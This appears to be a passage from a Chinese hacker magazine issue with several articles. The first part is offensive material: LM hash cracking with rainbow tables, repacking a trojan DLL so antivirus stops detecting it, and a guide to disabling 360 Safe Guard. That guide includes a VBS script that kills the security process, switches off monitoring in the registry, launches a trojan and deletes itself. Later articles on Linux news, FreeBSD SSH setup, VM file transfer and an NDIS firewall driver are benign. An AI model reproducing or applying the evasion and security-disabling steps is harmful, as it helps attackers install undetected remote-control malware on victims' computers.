  rainbow_chain_length rainbow_chain_count \
  file_title_suffix rtgen_hash_algorithm \
  plain_charset plain_len_min plain_len_max \
  rainbow_table_index \
  -bench
```

具体参数详情如图 9 所示，彩虹表生成器的命令行示例为：**rtgen lm numeric 1 7 0 100 16 lmhash**。

- **lm**：为我们要的散列算法（Windows 口令的散列方法）；
- **numeric**：为明文所用的字符集；
- **1**：为明文的最小长度；
- **7**：为明文的最大长度；
- **0**：为彩虹表的索引；
- **100**：为彩虹链长度；
- **16**：为要生成的彩虹链的个数；
- **lmhash**：为添加到文件标题后面的字符串，用于书写彩虹表的注释。当彩虹表生成后，我们会在当前目录下找到一个名称为 `lmhash.rt` 的文件，其中 lmhash 是我们在命令中输入的文件后缀。

为了加快彩虹表的查找速度，我们需要使用彩虹表排序程序（rtsort.exe）进行排序！rtsort 的命令很简单，参数就是彩虹表文件名，格式如：`rtsort rainbow_table_pathname`，本例就是 **rtsort `lmhash.rt`**。

经过几分钟的排序后，我们就可以用生成的字典去跑密码了，如：**rcrack *.rt -f hashes.txt**，把 Hash 放到 hashes.txt 文本中，这样我们可以跑批量的 Hash 散列！效果如图 10 所示。

总的来说，这些技术其实在网络上已经早有出处，只不过在国内相对比较少罢了，只有想不到，没有做不到，只要加以改造，就可以让这些技术成为 Hacking 中的又一利器！同时也告诫管理员朋友需要注意的事项：**并不是禁掉了 WSH、SA 等组件就不能执行命令！也并不是服务器不支持 PL 等扩展映射就没办法使用！**

> 编辑点评：HASH 散列碰撞时间和技术的发展也不是遥不可及的，技术和物理条件，缩短了我们爆破的时间，提高了 Hacking 的效率！


图 10

10086 免杀语：

真的有点受不了北京的天气，太冷了！现在还没有到零下。要是到了零下，真不知道该如何过？手已经脱皮了，脚也开始出现裂痕了……啊！有点可怕的天气。虽然在来之前就已经考虑过这些事情，但没想到在很真实地来临时，我已经束手无策。不过还好，上班的地方很暖和，不然还真的不好办！

## “壳中改籽”轻松免杀

图：OrpheusV

**从本文你可以学到：**

- “壳中改籽”免杀法
- 本文所涉免杀的文件
- 重要工具：reloc.exe（要用到的工具）
- 目标文件：毒.dll（演示要用到的文件，我们将对其进行免杀）

先用瑞星对目标文件进行扫描，报毒了，如图 1。接下来自然就是将对其进行免杀，首先用 PEiD 对其进行查看，如图 2，这个 dll 已经被加壳了。

“壳中改籽”的第一个步骤就是加壳，由于这个文件已经加了壳，那么加壳这个步骤我就跳过了。另外，得注意一个问题：加壳时最好选择“生成新壳”，这样“壳中改籽”的免杀效果会比较好。此外，不要尝试对木马的配置文件直接进行“壳中改籽”免杀，那样会造成木马配置不成功。


下面我们就利用 reloc 工具来实现“壳中改籽”的免杀。通过查看 reloc 自带的 readme 文件，可以知道 reloc 的免杀原理实际上就是对代码进行移位处理。首先看 PEiD 提供的相关信息，记录如下：

- 入口点：18001
- 文件偏移：9601（注：不要带上数据前面的“0x”）

然后查看该文件的区段信息，由于是 Aspack 的壳，因此我们要改的就是 .aspack 区段。在“区段查看器”中，选择“.aspack”那一行，然后按鼠标右键，选择“Cave 探测器”，如图 3。

这样我们就看到需要记录的如下信息：

- aspack 的 RVA：19275
- aspack 的偏移：A875

相关信息已经记录完毕，下面我们就开始运用 reloc.exe，首先给出 reloc 的命令格式：

```text
reloc <file path> <start address> <start file offset> <relocation address> <relocation file offset> <relocation size>
```

即：reloc 目标文件地址 入口点 文件偏移 要修改区段的 RVA 要修改区段的偏移 要重新分配的代码段的大小

注：要重新分配的代码段的大小，dll 文件一般置 5，exe 文件一般置 5-9 之间的数值，没有特殊要求置 6 即可。如果进行操作后未达到对文件的免杀，可以尝试更改要重新分配的代码段的大小，或者换用其它壳。另外，记得在每个数据前面加上“$”，执行效果如图 4。


操作成功，下面我们来看看效果。用瑞星再次查杀该文件，结果如图 5，瑞星已经不报毒了，顺利通过检测，成功免杀！

这种免杀方法的好处就是免杀效果好的话，一般就能一次性过多个杀毒软件。看来要免杀，不妨多换换思路。


**编辑点评：**

免杀 dll 的文章比较少，本期也选取了一篇，希望大家能对这方面的知识补充一下。“壳中改籽”方法可能有些人知道，也有些人不知道，我记得很早之前就看过一篇关于“壳中改籽”的文章，但那是写关于壳方面的，所以很多时候，有些方法是可以借鉴的。


## 简单突破 360 安全卫士

**从本文你可以学到：**

多种方式简单突破 360

由于 360 安全卫士是一款免费的安全工具，因此受到很多计算机爱好者的追捧和喜欢，甚至有人将它当作是迷你的杀毒软件来使用。因为 360 安全卫士不仅可以扫描系统中的恶意程序，而且它的实时监控功能也可以起到很好的防御作用，尤其是现在主流的木马程序，都是利用系统服务进行启动，所以要想成功地进行远程控制操作，就必须突破 360 安全卫士的服务监控功能。

### 一、利用功能插件

由于 360 安全卫士的知名度极高，因此现在推出的一些木马程序，默认都可以突破安全卫士。但是对于灰鸽子这样的老木马，突破起来就有了很多的难度，还好灰鸽子的插件管理功能为我们的操作提供了便利。

首先运行灰鸽子的客户端程序，点击工具栏上的“配置服务程序”，在弹出的“服务器配置”窗口，按照自己的需要配置相关的内容信息。最后点击“插件功能”选项卡，这里我们就可以添加突破安全卫士的插件。点击“文件路径”后的按钮选择需要的插件。由于突破安全卫士的插件是以 EXE 格式存在的，因此需要在“文件类型”中选择“所有文件”才可以进行选择。然后点击“添加”按钮将其添加到插件列表，如果用户选择了“只在程序安装时加载插件”的选项，那么插件只会在服务器程序安装运行的时候进行加载，以后服务端程序在启动的时候就不会再加载了，如图 1。


配置完成以后点击“生成服务端”按钮，就可以生成我们需要的木马服务端。这种方法的好处是简单易用，但是缺陷是只支持灰鸽子木马程序。

### 二、加壳进行突破

第一种方法不适用于其它的木马程序，所以我们只好想其它的突破办法。最近我在暗组发现了一个补丁程序，不但可以突破杀毒软件的主动防御，也可以突破安全卫士的实时监控功能。

首先生成需要的服务端程序，注意任何一款木马服务端程序都可以。接着运行北斗 3.7 的加壳程序，点击“打开”按钮来选择刚刚生成的服务端程序，然后点击“压缩”按钮就可以进行加壳操作。加壳完成以后运行补丁程序，直接将刚刚加壳处理过的文件拖拽到程序的输入框里面，最后点击“补丁文件”按钮就可以完成操作。

从这个补丁文件的介绍可以看出，该程序并不是直接对安全卫士进行操作，而是对保险柜进行的直接破坏。稍微了解的用户都知道，现在的安全卫士捆绑了保险柜，而保险柜起到的一部分作用就是对安全卫士进行保护。而保险柜为了保护自身，使用了一个驱动文件，而该程序就是通过破坏这个驱动文件，从而破坏保险柜，以至最终破坏整个安全卫士。

这种方法最大的优势就是可以对任何的病毒木马进行操作，而不足之处就是首先需要对文件进行北斗壳的处理。

### 三、脚本破坏操作

其实以前就有通过脚本来破坏安全卫士的方法，当时人们通过脚本来模拟鼠标的操作，用以关闭系统中安全卫士的监控模块。但是现在即使是关闭了监控模块，安全卫士也会在后台拦截木马病毒的操作。

下面就给大家介绍一段 VBS 脚本代码：

```vbscript
Dim nohack
set nohack=wscript.createobject("wscript.shell")
nohack.run "cmd /c kill360box.exe",0
wscript.sleep 2000
nohack.run "cmd /c del kill360box.exe",0
wscript.sleep 2000
nohack.run "cmd /c taskkill /im 360tray.exe /f",0
wscript.sleep 2000
nohack.RegWrite "HKLM\SOFTWARE\360Safe\safemon\MonAccess",0,"REG_DWORD"
wscript.sleep 2000
nohack.run "cmd /c muma.exe",0
wscript.sleep 4000
nohack.run "cmd /c del 1.vbs",0
```

将以上代码在记事本中输入后另存为 kill.vbs，其中的 Kill360box.exe 就是一款破坏保险柜的程序，它的作用和上面方法二的补丁是一样的，通过破坏保险柜最终达到破坏安全卫士的目的。在每一条控制命令之后，我都加入了一条延迟命令。

虽然 Kill360box.exe 程序可以破坏安全卫士，但是在系统重新启动以后，安全卫士还是可以检测出被添加的系统服务，所以还需要修复注册表，达到更改安全卫士设置的目的。

在注册表的 **HKLM\SOFTWARE\360Safe\safemon** 项里面，分别对应了安全卫士中的监控项目，比如 MonAccess 就代表系统关键位置的系统监控。**将 MonAccess 的值设置为 1，就代表进行监控，设置为 0 则代表不监控。**最后，只需要将木马、kill360box 和脚本文件，利用捆绑程序进行捆绑就可以了。

### 四、总结

通过上面的这三种方法，都可以达到突破 360 安全卫士的作用。虽然自己归纳的这些方法主要都是通过破坏保险柜来实现的，但是怎样破坏保险柜我还不得而知。不过我猜想，既然保险柜的驱动文件修改了系统的 SSDT，那么理论上通过破坏或恢复系统中的 SSDT，完全是可以达到破坏保险柜的作用。

> **编辑点评：** 以前都很少看到对 360 免杀的文章，所以本期特意选取了一篇，因为我发现使用 360 的用户还是挺多的。记得有一次问 MM：“你知道金山、瑞星吗？”，答曰：“不知道”；我又问：“那知道 360 吗？”，答曰：“知道！”，我都有点郁闷了！所以大家搞免杀还是要关注一下 360 哦！

# 窗外

驳言：

我国在政策上终于认识到不依赖 Windows 的重要性了，但政策实施下来怎么这么难呢？比如说电信，你敢说它没有阻碍 Linux 的发展吗？不知道大家用的是不是电信的宽带，电信为了防止网络共享，推出了星空极速拨号软件，把你的宽带账号加密。我装宽带时问他们有没有 for Linux 的版本？答曰：“没有”。那怎么办？“换回 Windows 才能给你装”。我晕啊……这是 1 年多以前的事了，可直到现在，我的 Linux 要上网还必须开个虚拟机虚拟个 Windows 来拨号。事实上电信根本就没把 Linux 用户当回事，我想买龙芯，我想用红旗，我想爱国，可电信不给我机会啊，但愿明年一切都会好起来吧。


## 1、Windows 7 生不逢时，Linux 能否成功就在此一举

前段时间据国外媒体报道，有分析师指出，鉴于当前的经济形势，Windows 7 上市后的销售情况预计不会好于 Windows Vista。

由于兼容性和硬件需求高等问题，Windows Vista 并不算是一款成功的操作系统，很多企业表示将跳过 Vista 而直接升级到 Windows 7。而且，从微软已经发布的 Windows 7 预览版（M3 6801）市场反馈看，Windows 7 的确是一款不错的系统。

不过由于当前全球经济低迷，Windows 7 同样将遭遇 Vista 噩梦。尽管系统本身很出色，但企业有可能不会立即投资来升级软件。与 Vista 相比，Windows 7 的唯一优势是使得 Windows XP 变得更加古老。

> 凤凰点评：
> 也许 Windows 7 再早 1 年出世，也不会是现在这个局面。Vista 给了 Linux 足够的喘息时间，虽然 Linux 还没有绝对的优势与 Windows 7 争夺桌面市场，但对于企业来说，他们已经有了一个新的选择。微软虽然加大了研发资金，但也有金钱无法衡量的，那就是全世界 Linux 程序员的热情。战争还会继续……

## 2、Firefox 扩展有望登录 IE8

IE Blog 最近发布了一条消息说，在由“计算机历史博物馆”举办的会议上，Google、微软以及 Mozilla 共聚一堂，畅谈浏览器平台的未来。而其中一个重要的议题就是：“从 Firefox 到 IE：如何编写跨浏览器的扩展”。

Firefox 作为一款开源产品，有着令其他浏览器无法望其项背的数量庞大的扩展，而在软件向服务转变的大潮中，在线应用类产品正随着 Web 的不断扩充而逐渐取代传统的桌面。

正如操作系统时代的跨平台开发一样，愈演愈烈的浏览器大战也正在上演当初的一幕。从技术进步的角度来看，Web 的开放性以及更好的语言无关性为跨浏览器开发奠定了坚实的基础。

> 凤凰点评：
> 这是一个飞跃，浏览器大战还在激烈地进行着，但无论战争多激烈，有一个统一的标准都是最重要的。Web 程序员天天看浏览器兼容问题大伤脑筋的日子虽然已经成为历史，但我们已经从这种境况中解脱了吗？没有，我没有完全抛弃 Windows，因为大掌柜忘了网上银行。我们需要一个兼容的代码标准，也需要一个兼容的平台。

## 3、第二台 Android 手机 Agora 即将上市

现在，澳大利亚公司 Kogan 已经推出了世界第二款基于 Android 平台的手机，该手机定价 299 澳元而且没有网络锁。这款 Android 手机是到目前为止第二种使用 Android 平台的手机，手机的名称为“Agora”，共有两种版本销售，其中标准版的售价为 299 澳元，而 Agora Pro 版本的价格为 399 澳元。

目前这两个型号的手机均无现货，需要手机的用户可以从 Kogan 的网站上进行预订，预计手机将在 09 年 1 月 29 日上市。其中标准版的配置为 QWERTY 键盘、中央导航键、2.5 英寸触摸屏、MicroSD 卡插槽、3G 连接。

> 凤凰点评：
> 前几天老盯着 taobao 上的 G1 流口水，现在终于又多了一款可以盯着流口水的机器了。明年春天 Android 将会来到中国，同时又有好几款新机会上巿，Android 的春天要到了，明年的手机市场又将是一片硝烟。

## 4、美国厂商：我的 PC 可以运行 Mac OS X，但不预装

Psystar 的黑塔系统让苹果抓狂并上了法院，结果有厂商曲线救国，它的名字叫 EFI-X。它的想法很简单，既然苹果不让我们装 Mac OS X，那我们就生产兼容这种系统的硬件，但不预装系统，让用户自己用简单的方法安装上，这样就规避了苹果的法律大棒。苹果总不可能因为 PC 兼容它的操作系统上法院吧？

这种电脑采用了 Core 2 Quad 处理器，甚至可以超频到 3.8GHz！其配置有 4GB 内存、GeForce 8800 GTS 显示卡、万转 150G 硬盘和 1TB 7200 转硬盘，售价 1899 美元，是 Mac Pro 高端版的一半价钱。

从配置上我们就可以看出，它是一款面向发烧友的系统。但是，既然都是 OS X 发烧友了，自己可以用更便宜的方法去装，还会有人去买吗？

> 凤凰点评：
> 苹果这次真的头痛了，不单单在外国，国内本本市场也一片“曲线救国”的声音。上网本销得红火，装免费 Linux 了，然后多花 5 块钱买张番茄 XP，让微软自己哭吧。

## FreeBSD 学习笔记（三）

**从本文您可以学到：**
了解 FreeBSD 下 SSH 服务的使用

作为一台服务器，你可以没有 apache，可以没有 mysql，但你不能没有 SSH。安装好一台主机之后，首先要配置的也是 SSH，之后你就可以回家躺在沙发上慢慢配置你的服务器了。上一期我们已经学会了怎样在 FreeBSD 上安装软件，那我们现在要安装的第一个软件，就是今天的主角：OpenSSH。

**小知识：什么是 SSH？**

让我们看看 Wiki 的定义：SSH 是指 Secure Shell，SSH 协议族由 IETF（Internet Engineering Task Force）的 Network Working Group 制定，SSH 协议是建立在应用层和传输层基础上的安全协议。

传统的网络服务程序，如 FTP、POP 和 Telnet，基本上都是不安全的，因为它们在网络上明文传送数据、用户账号和用户口令，很容易受到中间人（man-in-the-middle）攻击方式的攻击。也就是存在另一个人，或者一台机器冒充真正的服务器接收用户传给服务端的数据，然后再冒充用户把数据传给真正的服务器。

SSH（Secure Shell）是目前比较可靠的、为远程登录会话和其他网络服务提供安全性的协议，利用 SSH 协议可以有效防止远程管理过程中信息泄露问题。通过 SSH，可以把所有传输的数据进行加密，也能够防止 DNS 欺骗和 IP 欺骗。

### 安装 OpenSSH

FreeBSD 在安装的时候会问你是否开启 SSH，如果你选择开启，那就不需要安装了，你的 SSH 已经运行了。如果你像我一样没有开启，那我们就先一起来安装它吧。

安装很简单，还记得我们上期讲的内容吗？只需要一个命令 `pkg_add -r openssh`，之后耐心地等待一会，程序就会自动下载安装了。

不要高兴得太早，这时候 OpenSSH 只是安装了，还没有启用呢。下一步要用 vi 打开文件 `/etc/rc.conf`，在最后添加 `sshd_enable="YES"`，如图 1。

保存退出后就可以启动 SSH 服务了，用命令 `/etc/rc.d/sshd start`，如图 2，可以看到 SSH 服务正常启动了。

```text
### 图 1 编辑 rc.conf 文件
# -- sysinstall generated deltas -- # Sat Oct 11 11:22:36 2008
# Created: Sat Oct 11 11:22:36 2008
# Enable network daemons for user convenience.
# Please make all changes to this file, not to /etc/defaults/rc.conf.
# This file now contains just the overrides from /etc/defaults/rc.conf.
hostname="host"
ifconfig_rl0="DHCP"
keymap="us.iso"
linux_enable="YES"
moused_enable="YES"
sshd_enable="YES"

/etc/rc.conf: unmodified: line 1
```

```text
### 图 2 SSH 服务启动
host# /etc/rc.d/sshd start
Generating public/private rsa1 key pair.
Your identification has been saved in /etc/ssh/ssh_host_key.
Your public key has been saved in /etc/ssh/ssh_host_key.pub.
The key fingerprint is
bd:bc:b7:7a:a3:db:39:9b:94:68:90:ad:24:78:54 root@host
Generating public/private dsa key pair.
Your identification has been saved in /etc/ssh/ssh_host_dsa_key.
Your public key has been saved in /etc/ssh/ssh_host_dsa_key.pub.
The key fingerprint is
...
Starting sshd.
host#
```

### SSH 服务的配置

SSH 是分为客户端和服务端的，也有不同的配置文件，但对于一般用户，客户端一般不需要什么配置，直接用 ssh 命令登录服务器就可以了，我们要配置的主要是服务端。

SSH 配置文件存放在 `/etc/ssh` 目录中，主要的配置文件有 `ssh_config`，这是用来配置客户端；而 `sshd_config` 就是用来配置服务端的了，用 vi 打开这个文件，命令为 `vi /etc/ssh/sshd_config`。

我把其中比较重要的配置项目列出来，大家根据自己的需要进行配置吧。

- `Host *`
  - 选项 `Host` 只对能够匹配后面字段的计算机有效，“*”表示所有的计算机。
- `Port 22`
  - `Port` 设置服务端口，默认是 22 端口。
- `ForwardAgent no`
  - `ForwardAgent` 设置连接是否经过验证代理（如果存在）转发给远程计算机。
- `PermitRootLogin yes`
  - `PermitRootLogin` 设置成“no”将禁止 root 用户登录。如果想更好地提高安全性，可以把这个选项设置成 `PermitRootLogin without-password`，这样 root 用户就不能从没有密钥的计算机上登录。
- `ForwardX11 no`
  - `ForwardX11` 设置 X11 连接是否被自动重定向到安全的通道和显示集（DISPLAY set）。
- `RhostsAuthentication no`
  - `RhostsAuthentication` 设置是否使用基于 rhosts 的安全验证。
- `RhostsRSAAuthentication no`
  - `RhostsRSAAuthentication` 设置是否使用 RSA 算法的基于 rhosts 的安全验证。
- `RSAAuthentication yes`
  - `RSAAuthentication` 设置是否使用 RSA 算法进行安全验证。
- `PasswordAuthentication yes`
  - `PasswordAuthentication` 设置是否使用口令验证，把这个选项设置为“no”则只允许用户用基于密钥的方式登录。
- `FallBackToRsh no`
  - `FallBackToRsh` 设置如果用 ssh 连接出现错误是否自动使用 rsh。
- `UseRsh no`
  - `UseRsh` 设置是否在这台计算机上使用“rlogin/rsh”。
- `BatchMode no`
  - `BatchMode` 如果设为“yes”，passphrase/password（交互式输入口令）的提示将被禁止。当不能交互式输入口令的时候，这个选项对脚本文件和批处理任务十分有用。
- `CheckHostIP yes`
  - `CheckHostIP` 设置 ssh 是否查看连接到服务器的主机的 IP 地址，以防止 DNS 欺骗。建议设置为“yes”。
- `StrictHostKeyChecking yes`
  - `StrictHostKeyChecking` 如果设置成“yes”，ssh 就不会自动把计算机的密钥加入 `~/.ssh/known_hosts` 文件，并且一旦计算机的密钥发生了变化，就拒绝接受。

另外，还有一些很有用，也很重要的文件：`~/.ssh/authorized_keys`

此文件存储的是用户的公钥，当其远程登录时可以以此公钥对其进行认证。公钥信息并非要求高度安全性的文件，但仍推荐将其权限置为 700。如果此文件、`.ssh` 目录或者此用户的主目录能被其他用户读取，则此文件将可能被其他非授权用户修改或置换。此种情况下，除非在主配置文件中把 StrictModes 的值置为“no”，否则 sshd 将不允许使用此文件。

`~/.ssh/known_hosts`

用户每次登录过的主机的 host key 都将存放于此文件，但不包括系统间已经互相成功认证过的主机 host key。只能让 root 和属主具有读写权限。

`/etc/nologin`

如果这个文件存在，sshd 将拒绝除 root 用户外的任何其他用户登录。当任何用户在尝试登录时，此文件都将被显示，但所有非 root 用户将被拒绝。此文件应该是全局可读的。

`/etc/ssh/ssh_known_hosts`

存入系统级别的互认证的已知主机的 host key。这个文件需要管理员手动配置，可以将已知主机的公钥存入此文件。此文件只能为 root 或属主读写，但应该是全局可读的。

`/etc/ssh/sshd_config`

sshd 的主配置文件。

根据你的实际需要进行配置，配置完成以后重新启动 SSH 服务，用户命令“`/etc/rc.d/sshd restart`”，之后就可以使用 SSH 了。也许为了提高安全性，你会选择禁止使用密码而是使用密钥来进行验证，那我们就需要来看看密钥的使用方法了。

**小知识：**

SSH 的验证分为两种，一种是基于口令的，一种是基于密钥的。采用口令方式较灵活，但安全性差，可以受到中间人攻击；采用密钥验证可以有效防止攻击，并且口令也不会在网络上传输，能大幅度提高安全性。

### 密钥的使用

首先，你要生成自己的密钥，密钥是一对，分为公钥和私钥。你可以用命令“`ssh-keygen`”来生成一个密钥对。直接执行这个命令，结果如图 3。

```text
host# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
0d:d7:aa:ee:2B:c7:74:ea:8B:12:04:9c:6a:5d:d8 root@host
host#
```

> 图 3　生成密钥

命令执行后会先询问你密钥存放的位置，默认是“`~/.ssh`”目录，不需要修改，直接回车。然后就是输入口令了，接着就会生成密钥，并且告诉你密钥放在哪里。其中“`id_rsa.pub`”就是你的公钥，而“`id_rsa`”是私钥。

有了密钥之后，就可以将你的公钥分发到服务器上了。在服务器上，在自己的家目录下创建一个“.ssh”的子目录，把你的公钥“`id_rsa.pub`”复制到这个目录下并把它重命名为“`authorized_keys`”。

然后执行“`chmod 644 .ssh/authorized_keys`”，这样你的公钥就分发好了。至于私钥，找个保险的地方藏好，以后就要靠它来登录了。一般就放到“`~/.ssh/`”下，放到别的地方的话，在你使用 ssh 命令的时候程序无法自动检测到你的私钥，你就要用“`ssh -i 密钥路径`”来指定了。

如果你的密钥不幸被人偷了，你只需要重新生成一对，重新分发就可以了。到这里 SSH 的学习也结束了，OpenSSH 不光在 FreeBSD，在其他系统上的用法也是一样的，希望本文能对你有所帮助。

**编辑点评：**

在农历春节即将到来之际，学习无伴有教给大家的“FreeBSD 学习笔记”，是否意犹未尽呢？知识是永远学不完的，期待新的一年里大家平安健康！

## 图内外文件传输简约方案

图七绝书生

- 从本文您可以学到：
- 怎样通过 VM 共享文件夹
- 使用 FileZilla 传输文件

闲来无事，将《07 年黑客手册合订本》翻出来看，看到 8 月份的一篇文章《图内外小文件传输解决方案》，再次佩服一遍作者的水平。然而杀鸡焉用牛刀，Linux 虚拟机与 Windows 主机的文件传输可以更加简单，下面我把自己的方法跟和我一样的菜鸟分享一下。

### 方法一、使用共享文件夹

使用共享文件夹需要安装 VMware Tools。什么？你没安装 VMware Tools？没装还不快装！

- 1、设置共享文件夹

选择命令菜单下的“编辑虚拟机设置”选项，单击“选项”卡下的“共享文件夹”，如图 1。

单击“添加”按钮，可以建立一个或多个共享文件夹。

- 2、使用共享文件夹

在虚拟机中，进入 `/mnt/hgfs` 目录，看到所有共享文件夹，这样就可以直接在文件夹中读取或写入文件。

### 方法二、使用 FileZilla

FileZilla 可以方便地完成主机与虚拟机之间的文件传输，支持文件拖曳，是菜鸟的最爱。

安装完成后启动 FileZilla，主机、用户名、密码、端口依次填写虚拟机的 IP 地址、账号、密码及要使用的端口（通常使用 22 端口）。填写完成后点击“快速连接”进行连接，连接成功后直接拖曳文件即可，就像本机一样方便，如图 2。


# 快码加鞭


软件要用简化版的，操作自然也要简约啊！虽然没什么技术含量，相信还是比较实用的。有对 Linux 感兴趣的朋友，欢迎交流。

> **编辑点评：** Linux 虚拟机与 Windows 主机的文件传输自由度还是很高的，因为有 Linux，所以还有很多东西用起来也是相当方便，比如 FTP 和 SSH，或者是 Samba。因为 Linux 中可以把这些直接挂载，不需要开其它程序就可以像用本地磁盘一样方便。

快码加鞭篇首语

这段时间 MS 的黑屏炒得很凶，不过对于 MS 的正版销售还是起到了一定作用，可作为最终用户的信息安全却没了保障。MS 想进城门，似乎如入无人之境。还是要多多支持国产软件，作为国人，也可以利用 MS 提供的编程工具来开发出超越 MS 的东西呀！

## 浅谈 NDIS 中间层驱动——防火墙的实现（二）

□ UESTC@凝聚网络安全工作室 __ay

- 从本文您可以学到：
- 了解 NDIS 如何发送和接收数据

来，废话不多说，接着上一章！

在 NDIS 中间层中，驱动程序接收和发送数据包的过程并非我们所想象的那么简单，当底层网卡接收到数据时，它会通知 NDIS 中间层驱动进行接收。中间层驱动会为将要发送上来的数据分配缓冲区，之后下层网卡就会传送数据过来，接着系统就会调用自定义的回调函数 PtReceive(Packet) 了。

但是有个问题，当系统调用 PtReceive(Packet) 时，数据未必能及时上传完毕，也就是说 PtReceive(Packet) 中未必能够像我们所期望的那样得到完整的数据包。这样，系统会在随后数据包上传完毕后再调用 PtReceiveComplete 函数。接着系统调用 MPTransferData 将数据包转到导出的 MINIPORT 接口准备发送给上层的 PROTOCOL 接口。

发送数据包就相对简单一些，当要发送的数据包到达中间层程序时，系统会自动调用 PtSend(Packet)。如果在函数中无法将数据的发送完成，那么函数不会堵塞而直接返回，等发送完毕时系统会自动调用 PtSendComplete。

既然知道了中间层驱动程序接收发送数据的过程，那么就来看看如何得到我们的数据包内容吧，代码如下：

```c
NDIS_STATUS
PtReceive(
    IN NDIS_HANDLE ProtocolBindingContext,
    IN NDIS_HANDLE MacReceiveContext,
    IN PVOID HeaderBuffer,        // 以太头数据
    IN UINT HeaderBufferSize,     // 以太头数据大小
    IN PVOID LookAheadBuffer,     // 除去以太网头文件后剩下的数据部分
    IN UINT LookAheadBufferSize,  // LookAheadBuffer 数据大小
    IN UINT PacketSize            // 数据包大小
)
{
    PADAPT pAdapt = (PADAPT)ProtocolBindingContext;
    PNDIS_PACKET MyPacket, Packet;
    ...
}
```

```c
NDIS_STATUS Status = NDIS_STATUS_SUCCESS, DataStatus;
if (!pAdapt->MiniportHandle)
{
    Status = NDIS_STATUS_FAILURE;
}
else do
{
    if (pAdapt->isSecondary)
        ASSERT(0);
    // 从下层驱动获取数据包
    Packet = NdisGetReceivedPacket(pAdapt->BindingHandle, MacReceiveContext);

    if (Packet != NULL)
    {
        // 如果数据包不为空那么就为下层即将发送上来的数据包分配空间
        NdisDprAllocatePacket(&Status,
            &MyPacket, pAdapt->RecvPacketPoolHandle);
        if (Status == NDIS_STATUS_SUCCESS)
        {
            // 拷贝原下层数据包到我们分配的缓冲中
            MyPacket->Private.Head = Packet->Private.Head;
            MyPacket->Private.Tail = Packet->Private.Tail;
            NDIS_SET_ORIGINAL_PACKET(
                MyPacket, NDIS_GET_ORIGINAL_PACKET(Packet));
            NDIS_SET_PACKET_HEADER_SIZE(MyPacket, HeaderBufferSize);
            NdisGetPacketFlags(MyPacket) = NdisGetPacketFlags(Packet);
            NDIS_SET_PACKET_STATUS(MyPacket, NDIS_STATUS_RESOURCES);
            ASSERT(NDIS_GET_PACKET_STATUS(MyPacket) == NDIS_STATUS_RESOURCES);

            // 拷贝数据包完成
            // 判断数据成败
            DataStatus = PacketAnalysis(MyPacket);
            // 如果返回状态不是 NDIS_STATUS_SUCCESS，那么进行 status 设置，从而通知底层驱动释放资源
            if (DataStatus != NDIS_STATUS_SUCCESS)
                return NDIS_STATUS_FAILURE;
            // 通知 NDIS 我们已复制数据包到缓冲区中
            NdisMIndicateReceivePacket(pAdapt->MiniportHandle, &MyPacket, 1);
            // 释放数据包
            NdisDprFreePacket(MyPacket);
            break;
        }
    }
    ...
}
while (FALSE);
return Status;
```

在以上代码中，MyPacket 这个结构中就储存了我们希望得到的数据包地址。但是如何得到数据呢？在得到数据的过程中需要了解 NDIS_PACKET 和 NDIS_BUFFER 这两个结构。先给出这两个结构的定义：

```c
// NDIS_PACKET 结构的定义
typedef struct _NDIS_PACKET
{
    NDIS_PACKET_PRIVATE Private;
    // 这个其实是一个链表结构，Private.Head 指向第一个链表，Private.Tail 指向最后一个
    // 以下是有关这个结构的解释
    union
    {
        struct // For Connection-less miniports
        {
            UCHAR MiniportReserved[2*sizeof(PVOID)];
            UCHAR WrapperReserved[2*sizeof(PVOID)];
        };
        struct
        {
            // For de-serialized miniports. And by implication conn-oriented miniports.
            // This is for the send-path only. Packets indicated will use WrapperReserved
            // instead of WrapperReservedEx
            UCHAR MiniportReservedEx[3*sizeof(PVOID)];
            UCHAR WrapperReservedEx[sizeof(PVOID)];
        };
        struct
        {
            UCHAR MacReserved[4*sizeof(PVOID)];
        };
    };
    ULONG_PTR Reserved[2]; // For compatibility with Win95
    UCHAR ProtocolReserved[1];
} NDIS_PACKET, *PNDIS_PACKET, **PPNDIS_PACKET;

// NDIS_PACKET_PRIVATE 的定义
typedef struct _NDIS_PACKET_PRIVATE
{
    UINT PhysicalCount; // number of physical pages in packet
    UINT TotalLength;   // Total amount of data in the packet
    PNDIS_BUFFER Head;  // 链表指针，指向下一个
    PNDIS_BUFFER Tail;  // 链表指针，指向前面一个
    // If Head is NULL the chain is empty. Tail doesn't have to be NULL also
    PNDIS_PACKET_POOL Pool; // so we know where to free it back to.
    UINT Count;
    ULONG Flags;
    BOOLEAN ValidCounts;
    UCHAR NdisPacketFlags; // See PACKET_xxx bits below
    USHORT NdisPacketOobOffset;
} NDIS_PACKET_PRIVATE;

// NDIS_BUFFER 定义，其实就是一个内存描述符
typedef struct _NDIS_BUFFER
{
    struct _NDIS_BUFFER *Next; // 指向下一个节点的指针
    PVOID VirtualAddress; // 指向报文首地址
    PNDIS_BUFFER_POOL Pool;
    UINT Length; // 报文数据长度
    UINT Signature;
} NDIS_BUFFER, *PNDIS_BUFFER;
```

注释写得很清楚了，我们要的数据就储存在 NDIS_BUFFER 这个结构中的 VirtualAddress 成员里面，这个指针指向数据包的首地址，关系如图 1 所示。

好了，这样一来我们的思路大概清楚了：

NDIS_PACKET 只不过是一个描述 NDIS_BUFFER 链表的结构。在 NDIS_PACKET 的成员 Private 中有指向第一个 NDIS_BUFFER 的指针和指向最后一个 NDIS_BUFFER 的指针，分别是 Private.Head 和 Private.Tail。而 NDIS_BUFFER 中就记录了我们数据包的地址和下一个 NDIS_BUFFER 的地址。

操作有很多种方法，但是由于这些结构体本来对我们是不透明的，所以最安全的方法是用 MS 提供的一系列函数来操作 NDIS_PACKET 和 NDIS_BUFFER。这些函数都可以在 DDK 中查得到。


在下一篇文章中会给出一些操作 NDIS_BUFFER 和 NDIS_PACKET 的示例代码，以及怎样分析处理我们得到的数据包。其实大家已经可以编写自己的防火墙了，我下面要说的东西仅仅只是抛砖引玉而已，大家有空可以自己想接下来的代码该怎么写，毕竟需要自己动脑子想问题才会有好收获，呵呵。

PS：文章中的部分代码都是从朱晨辉的《Windows 防火墙与网络封包截获技术》这本书中附带的 xpassthru 例子和 DDK 中 passthru 例子中摘取的。

> （文章中所涉及的相关代码及工具都已经收录在光盘中）

